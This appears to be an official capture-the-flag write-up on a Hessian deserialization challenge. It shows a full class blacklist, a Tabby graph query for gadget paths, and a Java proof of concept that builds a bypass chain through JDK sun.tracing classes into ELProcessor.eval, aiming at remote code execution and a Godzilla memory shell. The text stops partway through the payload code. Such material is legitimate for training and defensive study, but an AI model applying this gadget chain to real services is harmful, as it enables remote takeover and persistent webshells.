




# WriteUp (Official Solution)

## Vulnerability Analysis

By decompiling the JAR file using `JADX`, we identified a Hessian deserialization entry point in the `ChallengeController`. The application explicitly enables `allowNonSerializable(true)`, which allows the deserialization of classes that do not implement the `Serializable` interface. However, the underlying `hessian-lite` library enforces a strict deserialization blacklist.

```java
package org.example.labyrinth.controller;

import com.alibaba.com.caucho.hessian.io.Hessian2Input;
import java.io.InputStream;
import javax.servlet.http.HttpServletRequest;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
/* loaded from: Labyrinth-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/org/example/labyrinth/controller/ChallengeController.class */
public class ChallengeController {
    @PostMapping({"/deserialize"})
    public String hessianDeserialize(HttpServletRequest request) {
        try {
            InputStream is = request.getInputStream();
            Hessian2Input input = new Hessian2Input(is);
            input.getSerializerFactory().setAllowNonSerializable(true);
            input.readObject();
            return "success";
        } catch (Exception e) {
            e.printStackTrace();
            return "Error: " + e.getMessage();
        }
    }
}
```

```java
#
#
#   Licensed to the Apache Software Foundation (ASF) under one or more
#   contributor license agreements.  See the NOTICE file distributed with
#   this work for additional information regarding copyright ownership.
#   The ASF licenses this file to You under the Apache License, Version 2.0
#   (the "License"); you may not use this file except in compliance with
#   the License.  You may obtain a copy of the License at
#
#       http://www.apache.org/licenses/LICENSE-2.0
#
#   Unless required by applicable law or agreed to in writing, software
#   distributed under the License is distributed on an "AS IS" BASIS,
#   WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
#   See the License for the specific language governing permissions and
#   limitations under the License.
#
#
bsh.
ch.qos.logback.core.db.
clojure.
com.alibaba.citrus.springext.support.parser.
com.alibaba.citrus.springext.util.SpringExtUtil.
com.alibaba.druid.pool.
com.alibaba.hotcode.internal.org.apache.commons.collections.functors.
com.alipay.custrelation.service.model.redress.
com.alipay.oceanbase.obproxy.druid.pool.
com.caucho.config.types.
com.caucho.hessian.test.
com.caucho.naming.
com.ibm.jtc.jax.xml.bind.v2.runtime.unmarshaller.
com.ibm.xltxe.rnm1.xtq.bcel.util.
com.mchange.v2.c3p0.
com.mysql.jdbc.util.
com.rometools.rome.feed.
com.sun.corba.se.impl.
com.sun.corba.se.spi.orbutil.
com.sun.jndi.rmi.
com.sun.jndi.toolkit.
com.sun.org.apache.bcel.internal.
com.sun.org.apache.xalan.internal.
com.sun.rowset.
com.sun.xml.internal.bind.v2.
com.taobao.vipserver.commons.collections.functors.
groovy.lang.
java.awt.
java.beans.
java.lang.ProcessBuilder
java.lang.Runtime
java.rmi.server.
java.security.
java.util.ServiceLoader
java.util.StringTokenizer
javassist.bytecode.annotation.
javassist.tools.web.Viewer
javassist.util.proxy.
javax.imageio.
javax.imageio.spi.
javax.management.
javax.media.jai.remote.
javax.naming.
javax.script.
javax.sound.sampled.
javax.swing.
javax.xml.transform.
net.bytebuddy.dynamic.loading.
oracle.jdbc.connector.
oracle.jdbc.pool.
org.apache.aries.transaction.jms.
org.apache.bcel.util.
org.apache.carbondata.core.scan.expression.
org.apache.commons.beanutils.
org.apache.commons.codec.binary.
org.apache.commons.collections.functors.
org.apache.commons.collections4.functors.
org.apache.commons.codec.
org.apache.commons.configuration.
org.apache.commons.configuration2.
org.apache.commons.dbcp.datasources.
org.apache.commons.dbcp2.datasources.
org.apache.commons.fileupload.disk.
org.apache.ibatis.executor.loader.
org.apache.ibatis.javassist.bytecode.
org.apache.ibatis.javassist.tools.
org.apache.ibatis.javassist.util.
org.apache.ignite.cache.
org.apache.log.output.db.
org.apache.log4j.receivers.db.
org.apache.myfaces.view.facelets.el.
org.apache.openjpa.ee.
org.apache.openjpa.ee.
org.apache.shiro.
org.apache.tomcat.dbcp.
org.apache.velocity.runtime.
org.apache.velocity.
org.apache.wicket.util.
org.apache.xalan.xsltc.trax.
org.apache.xbean.naming.context.
org.apache.xpath.
org.apache.zookeeper.
org.aspectj.
org.codehaus.groovy.runtime.
org.datanucleus.store.rdbms.datasource.dbcp.datasources.
org.dom4j.
org.eclipse.jetty.util.log.
org.geotools.filter.
org.h2.value.
org.hibernate.tuple.component.
org.hibernate.type.
org.jboss.ejb3.
org.jboss.proxy.ejb.
org.jboss.resteasy.plugins.server.resourcefactory.
org.jboss.weld.interceptor.builder.
org.junit.
org.mockito.internal.creation.cglib.
org.mortbay.log.
org.mockito.
org.thymeleaf.
org.quartz.
org.springframework.aop.aspectj.
org.springframework.beans.BeanWrapperImpl$BeanPropertyHandler
org.springframework.beans.factory.
org.springframework.expression.spel.
org.springframework.jndi.
org.springframework.orm.
org.springframework.transaction.
org.yaml.snakeyaml.tokens.
ognl.
pstore.shaded.org.apache.commons.collections.
sun.print.
sun.rmi.server.
sun.rmi.transport.
weblogic.ejb20.internal.
weblogic.jms.common.
```

**The Blacklist:**
The challenge implements an extensive blacklist (as seen in the provided configuration file), blocking common gadget chains like `Rome`, `Spring AOP`, `CommonsBeanutils`, `C3P0`, `AspectJ`, etc.

**Strategy:**
Bypassing this blacklist directly using standard public gadgets is extremely difficult. However, by leveraging the provided `CustomProxy` class and digging into the JDK internals, we can construct a bypass chain. Note that standard proxy classes are often problematic in Hessian, but the environment settings here allow for specific manipulations.

**The Helper Class (`CustomProxy`):**
The challenge provides a `CustomProxy` class. This class extends `Proxy` and implements `Comparable`. Crucially, its `compareTo` method redirects execution to an `InvocationHandler`.

```java
package org.example.labyrinth.model;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;

/* loaded from: Labyrinth-0.0.1-SNAPSHOT.jar:BOOT-INF/classes/org/example/labyrinth/model/CustomProxy.class */
public class CustomProxy extends Proxy implements Comparable<Object> {
    private Method m3;

    public CustomProxy(InvocationHandler h) {
        super(h);
    }

    public CustomProxy(InvocationHandler h, Method m) {
        super(h);
        this.m3 = m;
    }

    @Override // java.lang.Comparable
    public int compareTo(Object o) {
        try {
            if ("compareTo".equals(this.m3.getName())) {
                return ((Integer) ((Proxy) this).h.invoke(this, this.m3, new Object[]{o})).intValue();
            }
            throw new UnsupportedOperationException("The bound method m3 is not 'compareTo', but: " + this.m3.getName());
        } catch (Error | RuntimeException e) {
            throw e;
        } catch (Throwable e2) {
            throw new RuntimeException(e2);
        }
    }
}
```

We turned our attention to the native JDK dependencies, specifically looking for reflection or command execution sinks. We discovered a powerful gadget within `sun.tracing.dtrace.DTraceProbe` and `sun.tracing.ProviderSkeleton`.
The `sun.tracing.dtrace.DTraceProbe` class contains a method named `uncheckedTrigger`. This method performs a dangerous reflection call using `implementing_method.invoke(proxy, args)`, where both the method and the object instance are controlled by class fields.

```java
/*
 * Copyright (c) 2008, Oracle and/or its affiliates. All rights reserved.
 * DO NOT ALTER OR REMOVE COPYRIGHT NOTICES OR THIS FILE HEADER.
 *
 * This code is free software; you can redistribute it and/or modify it
 * under the terms of the GNU General Public License version 2 only, as
 * published by the Free Software Foundation.  Oracle designates this
 * particular file as subject to the "Classpath" exception as provided
 * by Oracle in the LICENSE file that accompanied this code.
 *
 * This code is distributed in the hope that it will be useful, but WITHOUT
 * ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or
 * FITNESS FOR A PARTICULAR PURPOSE.  See the GNU General Public License
 * version 2 for more details (a copy is included in the LICENSE file that
 * accompanied this code).
 *
 * You should have received a copy of the GNU General Public License version
 * 2 along with this work; if not, write to the Free Software Foundation,
 * Inc., 51 Franklin St, Fifth Floor, Boston, MA 02110-1301 USA.
 *
 * Please contact Oracle, 500 Oracle Parkway, Redwood Shores, CA 94065 USA
 * or visit www.oracle.com if you need additional information or have any
 * questions.
 */

package sun.tracing.dtrace;

import java.lang.reflect.Method;
import java.lang.reflect.InvocationTargetException;

import sun.tracing.ProbeSkeleton;

class DTraceProbe extends ProbeSkeleton {
    private Object proxy;
    private Method declared_method;
    private Method implementing_method;

    DTraceProbe(Object proxy, Method m) {
        super(m.getParameterTypes());
        this.proxy = proxy;
        this.declared_method = m;
        try {
            // The JVM will override the proxy method's implementation with
            // a version that will invoke the probe.
            this.implementing_method =  proxy.getClass().getMethod(
                m.getName(), m.getParameterTypes());
        } catch (NoSuchMethodException e) {
            throw new RuntimeException("Internal error, wrong proxy class");
        }
    }

    public boolean isEnabled() {
        return JVM.isEnabled(implementing_method);
    }

    public void uncheckedTrigger(Object[] args) {
        try {
            implementing_method.invoke(proxy, args);
        } catch (IllegalAccessException e) {
            assert false;
        } catch (InvocationTargetException e) {
            assert false;
        }
    }

    String getProbeName() {
        return DTraceProvider.getProbeName(declared_method);
    }

    String getFunctionName() {
        return DTraceProvider.getFunctionName(declared_method);
    }

    Method getMethod() {
        return implementing_method;
    }

    Class<?>[] getParameterTypes() {
        return this.parameters;
    }
}


```

Using the static analysis tool **Tabby**, we searched for a path from a source method to the `uncheckedTrigger` sink, filtering out any nodes present in the blacklist.

```neo4j

WITH [
    "bsh.",
    "ch.qos.logback.core.db.",
    "clojure.",
    "com.alibaba.citrus.springext.support.parser.",
    "com.alibaba.citrus.springext.util.SpringExtUtil.",
    "com.alibaba.druid.pool.",
    "com.alibaba.hotcode.internal.org.apache.commons.collections.functors.",
    "com.alipay.custrelation.service.model.redress.",
    "com.alipay.oceanbase.obproxy.druid.pool.",
    "com.caucho.config.types.",
    "com.caucho.hessian.test.",
    "com.caucho.naming.",
    "com.ibm.jtc.jax.xml.bind.v2.runtime.unmarshaller.",
    "com.ibm.xltxe.rnm1.xtq.bcel.util.",
    "com.mchange.v2.c3p0.",
    "com.mysql.jdbc.util.",
    "com.rometools.rome.feed.",
    "com.sun.corba.se.impl.",
    "com.sun.corba.se.spi.orbutil.",
    "com.sun.jndi.rmi.",
    "com.sun.jndi.toolkit.",
    "com.sun.org.apache.bcel.internal.",
    "com.sun.org.apache.xalan.internal.",
    "com.sun.rowset.",
    "com.sun.xml.internal.bind.v2.",
    "com.taobao.vipserver.commons.collections.functors.",
    "groovy.lang.",
    "java.awt.",
    "java.beans.",
    "java.lang.ProcessBuilder",
    "java.lang.Runtime",
    "java.rmi.server.",
    "java.security.",
    "java.util.ServiceLoader",
    "java.util.StringTokenizer",
    "javassist.bytecode.annotation.",
    "javassist.tools.web.Viewer",
    "javassist.util.proxy.",
    "javax.imageio.",
    "javax.imageio.spi.",
    "javax.management.",
    "javax.media.jai.remote.",
    "javax.naming.",
    "javax.script.",
    "javax.sound.sampled.",
    "javax.swing.",
    "javax.xml.transform.",
    "net.bytebuddy.dynamic.loading.",
    "oracle.jdbc.connector.",
    "oracle.jdbc.pool.",
    "org.apache.aries.transaction.jms.",
    "org.apache.bcel.util.",
    "org.apache.carbondata.core.scan.expression.",
    "org.apache.commons.beanutils.",
    "org.apache.commons.codec.binary.",
    "org.apache.commons.collections.functors.",
    "org.apache.commons.collections4.functors.",
    "org.apache.commons.codec.",
    "org.apache.commons.configuration.",
    "org.apache.commons.configuration2.",
    "org.apache.commons.dbcp.datasources.",
    "org.apache.commons.dbcp2.datasources.",
    "org.apache.commons.fileupload.disk.",
    "org.apache.ibatis.executor.loader.",
    "org.apache.ibatis.javassist.bytecode.",
    "org.apache.ibatis.javassist.tools.",
    "org.apache.ibatis.javassist.util.",
    "org.apache.ignite.cache.",
    "org.apache.log.output.db.",
    "org.apache.log4j.receivers.db.",
    "org.apache.myfaces.view.facelets.el.",
    "org.apache.openjpa.ee.",
    "org.apache.shiro.",
    "org.apache.tomcat.dbcp.",
    "org.apache.velocity.runtime.",
    "org.apache.velocity.",
    "org.apache.wicket.util.",
    "org.apache.xalan.xsltc.trax.",
    "org.apache.xbean.naming.context.",
    "org.apache.xpath.",
    "org.apache.zookeeper.",
    "org.aspectj.",
    "org.codehaus.groovy.runtime.",
    "org.datanucleus.store.rdbms.datasource.dbcp.datasources.",
    "org.dom4j.",
    "org.eclipse.jetty.util.log.",
    "org.geotools.filter.",
    "org.h2.value.",
    "org.hibernate.tuple.component.",
    "org.hibernate.type.",
    "org.jboss.ejb3.",
    "org.jboss.proxy.ejb.",
    "org.jboss.resteasy.plugins.server.resourcefactory.",
    "org.jboss.weld.interceptor.builder.",
    "org.junit.",
    "org.mockito.internal.creation.cglib.",
    "org.mortbay.log.",
    "org.mockito.",
    "org.thymeleaf.",
    "org.quartz.",
    "org.springframework.aop.aspectj.",
    "org.springframework.beans.BeanWrapperImpl$BeanPropertyHandler",
    "org.springframework.beans.factory.",
    "org.springframework.expression.spel.",
    "org.springframework.jndi.",
    "org.springframework.orm.",
    "org.springframework.transaction.",
    "org.yaml.snakeyaml.tokens.",
    "ognl.",
    "pstore.shaded.org.apache.commons.collections.",
    "sun.print.",
    "sun.rmi.server.",
    "sun.rmi.transport.",
    "weblogic.ejb20.internal.",
    "weblogic.jms.common."
] AS blacklist

match (source:Method ) // 限定source
match (sink:Method {NAME:"uncheckedTrigger",CLASSNAME:"sun.tracing.dtrace.DTraceProbe"}) // 限定sink
call apoc.algo.allSimplePaths(source, sink, "CALL>|ALIAS>", 8) yield path 
WHERE none(n IN nodes(path) WHERE 
    // 检查节点是否属于黑名单中的任何一项
    ANY(b IN blacklist WHERE n.CLASSNAME STARTS WITH b)
)
return path limit 1
```



The core of this exploit lies in the `sun.tracing` mechanism within the JDK. We can construct a malicious `InvocationHandler` using `ProviderSkeleton` which, when invoked, triggers the `DTraceProbe`.
`sun.tracing.ProviderSkeleton` 是一個實現了 `InvocationHandler` 的抽象類別。當代理對象的方法被調用時，會進入 `invoke` 方法。
`triggerProbe` 方法會從內部的 HashMap (`probes`) 中獲取對應的 `ProbeSkeleton`，並調用其 `uncheckedTrigger` 方法。

```java
/*
 * Copyright (c) 2008, 2013, Oracle and/or its affiliates. All rights reserved.
 * DO NOT ALTER OR REMOVE COPYRIGHT NOTICES OR THIS FILE HEADER.
 *
 * This code is free software; you can redistribute it and/or modify it
 * under the terms of the GNU General Public License version 2 only, as
 * published by the Free Software Foundation.  Oracle designates this
 * particular file as subject to the "Classpath" exception as provided
 * by Oracle in the LICENSE file that accompanied this code.
 *
 * This code is distributed in the hope that it will be useful, but WITHOUT
 * ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or
 * FITNESS FOR A PARTICULAR PURPOSE.  See the GNU General Public License
 * version 2 for more details (a copy is included in the LICENSE file that
 * accompanied this code).
 *
 * You should have received a copy of the GNU General Public License version
 * 2 along with this work; if not, write to the Free Software Foundation,
 * Inc., 51 Franklin St, Fifth Floor, Boston, MA 02110-1301 USA.
 *
 * Please contact Oracle, 500 Oracle Parkway, Redwood Shores, CA 94065 USA
 * or visit www.oracle.com if you need additional information or have any
 * questions.
 */

package sun.tracing;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.AnnotatedElement;
import java.lang.annotation.Annotation;
import java.util.HashMap;
import java.security.AccessController;
import java.security.PrivilegedAction;

import com.sun.tracing.Provider;
import com.sun.tracing.Probe;
import com.sun.tracing.ProviderName;

/**
 * Provides a common code for implementation of {@code Provider} classes.
 *
 * Each tracing subsystem needs to provide three classes, a factory
 * (derived from {@code ProviderFactory}, a provider (a subclass of
 * {@code Provider}, and a probe type (subclass of {@code ProbeSkeleton}).
 *
 * The factory object takes a user-defined interface and provides an
 * implementation of it whose method calls will trigger probes in the
 * tracing framework.
 *
 * The framework's provider class, and its instances, are not seen by the
 * user at all -- they usually sit in the background and receive and dispatch
 * the calls to the user's provider interface.  The {@code ProviderSkeleton}
 * class provides almost all of the implementation needed by a framework
 * provider.  Framework providers must only provide a constructor and
 * disposal method, and implement the {@code createProbe} method to create
 * an appropriate {@code ProbeSkeleton} subclass.
 *
 * The framework's probe class provides the implementation of the two
 * probe methods, {@code isEnabled()} and {@code uncheckedTrigger()}.  Both are
 * framework-dependent implementations.
 *
 * @since 1.7
 */

public abstract class ProviderSkeleton implements InvocationHandler, Provider {

    protected boolean active; // set to false after dispose() is called
    protected Class<? extends Provider> providerType; // user's interface
    protected HashMap<Method, ProbeSkeleton> probes; // methods to probes


    /**
     * Creates a framework-specific probe subtype.
     *
     * This method is implemented by the framework's provider and returns
     * framework-specific probes for a method.
     *
     * @param method A method in the user's interface
     * @return a subclass of ProbeSkeleton for the particular framework.
     */
    protected abstract ProbeSkeleton createProbe(Method method);

    /**
     * Initializes the provider.
     *
     * @param type the user's interface
     */
    protected ProviderSkeleton(Class<? extends Provider> type) {
        this.active = false; // in case of some error during initialization
        this.providerType = type;
        this.probes = new HashMap<Method,ProbeSkeleton>();
    }

    /**
     * Post-constructor initialization routine.
     *
     * Subclass instances must be initialized before they can create probes.
     * It is up to the factory implementations to call this after construction.
     */
    public void init() {
        Method[] methods = AccessController.doPrivileged(new PrivilegedAction<Method[]>() {
            public Method[] run() {
                return providerType.getDeclaredMethods();
            }
        });

        for (Method m : methods) {
            if ( m.getReturnType() != Void.TYPE ) {
                throw new IllegalArgumentException(
                   "Return value of method is not void");
            } else {
                probes.put(m, createProbe(m));
            }
        }
        this.active = true;
    }

    /**
     * Magic routine which creates an implementation of the user's interface.
     *
     * This method creates the instance of the user's interface which is
     * passed back to the user.  Every call upon that interface will be
     * redirected to the {@code invoke()} method of this class (until
     * overridden by the VM).
     *
     * @return an implementation of the user's interface
     */
    @SuppressWarnings("unchecked")
    public <T extends Provider> T newProxyInstance() {
        final InvocationHandler ih = this;
        return AccessController.doPrivileged(new PrivilegedAction<T>() {
            public T run() {
               return (T)Proxy.newProxyInstance(providerType.getClassLoader(),
                   new Class<?>[] { providerType }, ih);
            }});
    }

    /**
     * Triggers a framework probe when a user interface method is called.
     *
     * This method dispatches a user interface method call to the appropriate
     * probe associated with this framework.
     *
     * If the invoked method is not a user-defined member of the interface,
     * then it is a member of {@code Provider} or {@code Object} and we
     * invoke the method directly.
     *
     * @param proxy the instance whose method was invoked
     * @param method the method that was called
     * @param args the arguments passed in the call.
     * @return always null, if the method is a user-defined probe
     */
    public Object invoke(Object proxy, Method method, Object[] args) {
        Class declaringClass = method.getDeclaringClass();
        // not a provider subtype's own method
        if (declaringClass != providerType) {
            try {
                // delegate only to methods declared by
                // com.sun.tracing.Provider or java.lang.Object
                if (declaringClass == Provider.class ||
                    declaringClass == Object.class) {
                    return method.invoke(this, args);
                } else {
                    // assert false : "this should never happen"
                    //    reaching here would indicate a breach
                    //    in security in the higher layers
                    throw new SecurityException();
                }
            } catch (IllegalAccessException e) {
                assert false;
            } catch (InvocationTargetException e) {
                assert false;
            }
        } else {
            triggerProbe(method, args);
        }
        return null;
    }

    /**
     * Direct accessor for {@code Probe} objects.
     *
     * @param m the method corresponding to a probe
     * @return the method associated probe object, or null
     */
    public Probe getProbe(Method m) {
        return active ? probes.get(m) : null;
    }

    /**
     * Default provider disposal method.
     *
     * This is overridden in subclasses as needed.
     */
    public void dispose() {
        active = false;
        probes.clear();
    }

    /**
     * Gets the user-specified provider name for the user's interface.
     *
     * If the user's interface has a {@ProviderName} annotation, that value
     * is used.  Otherwise we use the simple name of the user interface's class.
     * @return the provider name
     */
    protected String getProviderName() {
        return getAnnotationString(
                providerType, ProviderName.class, providerType.getSimpleName());
    }

    /**
     * Utility method for getting a string value from an annotation.
     *
     * Used for getting a string value from an annotation with a 'value' method.
     *
     * @param element the element that was annotated, either a class or method
     * @param annotation the class of the annotation we're interested in
     * @param defaultValue the value to return if the annotation doesn't
     * exist, doesn't have a "value", or the value is empty.
     */
    protected static String getAnnotationString(
            AnnotatedElement element, Class<? extends Annotation> annotation,
            String defaultValue) {
        String ret = (String)getAnnotationValue(
                element, annotation, "value", defaultValue);
        return ret.isEmpty() ? defaultValue : ret;
    }

    /**
     * Utility method for calling an arbitrary method in an annotation.
     *
     * @param element the element that was annotated, either a class or method
     * @param annotation the class of the annotation we're interested in
     * @param methodName the name of the method in the annotation we wish
     * to call.
     * @param defaultValue the value to return if the annotation doesn't
     * exist, or we couldn't invoke the method for some reason.
     * @return the result of calling the annotation method, or the default.
     */
    protected static Object getAnnotationValue(
            AnnotatedElement element, Class<? extends Annotation> annotation,
            String methodName, Object defaultValue) {
        Object ret = defaultValue;
        try {
            Method m = annotation.getMethod(methodName);
            Annotation a = element.getAnnotation(annotation);
            ret = m.invoke(a);
        } catch (NoSuchMethodException e) {
            assert false;
        } catch (IllegalAccessException e) {
            assert false;
        } catch (InvocationTargetException e) {
            assert false;
        } catch (NullPointerException e) {
            assert false;
        }
        return ret;
    }

    protected void triggerProbe(Method method, Object[] args) {
        if (active) {
            ProbeSkeleton p = probes.get(method);
            if (p != null) {
                // Skips argument check -- already done by javac
                p.uncheckedTrigger(args);
            }
        }
    }
}

```

### Summary and Analysis Chart

```text
[Hessian 反序列化流]
       |
       v
[触发点 (Trigger)]
(例如: 某对象调用了代理对象的 toString/hashCode/任意接口方法)
       |
       v
[JDK Dynamic Proxy]
       |
       v
[Handler: sun.tracing.ProviderSkeleton (NullProvider)]
   -> invoke(proxy, method, args)
       |
       v
   -> triggerProbe(method, args)
       | 从 probes Map 中找到恶意 Probe
       v
[Sink: sun.tracing.dtrace.DTraceProbe]
   -> uncheckedTrigger(args)
       |
       v
   -> implementing_method.invoke(proxy, args)
       |
       v
[任意代码执行 (RCE)]
```

Although we have a reflection primitive, many standard RCE classes (like `TemplatesImpl`) are on the blacklist. However, `javax.el.ELProcessor` is **not** blacklisted.
The EL expression invokes the JavaScript engine (Nashorn/Rhino) to inject a **Godzilla Memory Shell** (or other payloads).

```java
package poc;


import com.alibaba.com.caucho.hessian.io.Hessian2Input;
import com.alibaba.com.caucho.hessian.io.Hessian2Output;
import org.example.labyrinth.model.CustomProxy;
import sun.reflect.ReflectionFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.util.Base64;
import java.util.HashMap;
import java.util.TreeMap;

/**
 * Hessian Deserialization PoC using sun.tracing.dtrace.DTraceProbe
 * <p>
 * Targets: JDK 7, JDK 8 (before module encapsulation)
 * Dependencies: hessian-4.0.xx.jar
 */
public class HessianSunTracingPoc {

    public static void main(String[] args) throws Exception {
        System.out.println("[*] Constructing malicious payload...");


        Object targetTarget = new javax.el.ELProcessor();
        Method targetMethod = targetTarget.getClass().getDeclaredMethod("eval", new Class[]{String.class});

        // 4. 获取字段的值
        // 因为 m3 是 static 静态变量，所以在 get() 方法中传入 null 即可
        Method m3Value = Comparable.class.getDeclaredMethod("compareTo", Object.class);


        Class<?> probeClass = Class.forName("sun.tracing.dtrace.DTraceProbe");
        Object probe = createWithoutConstructor(probeClass);

//         注入字段
//         proxy: 实际执行方法的对象 (Runtime)
        setField(probe, "proxy", targetTarget);
//         implementing_method: 实际执行的方法 (exec)
        setField(probe, "implementing_method", targetMethod);
//         declared_method: 接口定义的方法 (compareTo) - 这里的逻辑是获取 ProbeName 用的，影响不大，但为了稳健最好设置

        // 3. 构造恶意的 ProviderSkeleton (InvocationHandler)
        // ProviderSkeleton 是抽象类，我们需要一个具体的子类。
        // sun.tracing.print.PrintStreamProviderFactory$PrintStreamProvider 是 rt.jar 中存在的具体子类
        Class<?> providerClass = Class.forName("sun.tracing.NullProvider");
        Object handler = createWithoutConstructor(providerClass);

        // 注入字段
        setField(handler, "active", true); // 必须激活
        setField(handler, "providerType", Comparable.class); // 代理的接口类型

        // 准备 probes Map
        HashMap<Method, Object> probes = new HashMap<>();
        probes.put(m3Value, probe); // 当调用 compareTo 时，触发 probe
        setField(handler, "probes", probes);

        // 4. 创建动态代理 (Entry Point)
        // 这个 Proxy 对象就是我们要序列化的核心对象
        CustomProxy proxy = new CustomProxy((InvocationHandler) handler, m3Value);
        TreeMap<Object, Object> m = new TreeMap<>();
        setField(m, "size", 2);
        setField(m, "modCount", 2);
        Class<?> nodeC = Class.forName("java.util.TreeMap$Entry");
        Constructor nodeCons = nodeC.getDeclaredConstructor(Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
